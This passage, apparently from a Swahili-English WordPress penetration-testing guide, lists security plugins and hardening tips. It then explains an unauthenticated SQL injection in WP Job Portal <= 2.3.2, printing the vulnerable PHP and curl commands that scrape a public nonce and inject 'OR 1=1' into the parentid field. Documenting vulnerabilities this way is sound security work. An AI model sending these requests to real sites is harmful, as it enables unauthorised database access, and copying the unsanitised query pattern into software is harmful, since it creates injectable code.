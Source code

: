 ### Plugins za Usalama

- [**Wordfence Security**](https://wordpress.org/plugins/wordfence/)
- [**Sucuri Security**](https://wordpress.org/plugins/sucuri-scanner/)
- [**iThemes Security**](https://wordpress.org/plugins/better-wp-security/)

### **Mapendekezo Mengine**

- Ondoa mtumiaji chaguo-msingi **admin**
- Tumia **nywila zenye nguvu** na **2FA**
- Kila mara **kagua** **ruhusa** za watumiaji
- **Punguza idadi ya jaribio za kuingia** ili kuzuia Brute Force attacks
- Badilisha jina la faili **`wp-admin.php`** na ruhusu ufikiaji tu ndani au kutoka anwani za IP maalum.


### Unauthenticated SQL Injection kutokana na ukosefu wa uthibitishaji (WP Job Portal <= 2.3.2)

The WP Job Portal recruitment plugin exposed a **savecategory** task that ultimately executes the following vulnerable code inside `modules/category/model.php::validateFormData()`:
```php
$category  = WPJOBPORTALrequest::getVar('parentid');
$inquery   = ' ';
if ($category) {
$inquery .= " WHERE parentid = $category ";   // <-- direct concat ✗
}
$query  = "SELECT max(ordering)+1 AS maxordering FROM "
. wpjobportal::$_db->prefix . "wj_portal_categories " . $inquery; // executed later
```
Issues introduced by this snippet:

1. **Ingizo la mtumiaji lisilosafishwa** – `parentid` linaingia moja kwa moja kutoka HTTP request.
2. **String concatenation inside the WHERE clause** – hakuna `is_numeric()` / `esc_sql()` / prepared statement.
3. **Unauthenticated reachability** – ingawa action inatekelezwa kupitia `admin-post.php`, ukaguzi wa pekee uliopo ni **CSRF nonce** (`wp_verify_nonce()`), ambao mtumiaji yeyote anaweza kuupata kutoka ukurasa wa umma unaoingiza shortcode `[wpjobportal_my_resumes]`.

#### Utekelezaji

1. Pata nonce mpya:
```bash
curl -s https://victim.com/my-resumes/ | grep -oE 'name="_wpnonce" value="[a-f0-9]+' | cut -d'"' -f4
```
2. Inject arbitrary SQL by abusing `parentid`:
```bash
curl -X POST https://victim.com/wp-admin/admin-post.php \
-d 'task=savecategory' \
-d '_wpnonce=<nonce>' \
-d 'parentid=0 OR 1=1-- -' \
-d 'cat_title=pwn' -d 'id='
```
The response discloses the result of the injected query or alters the database, proving SQLi.
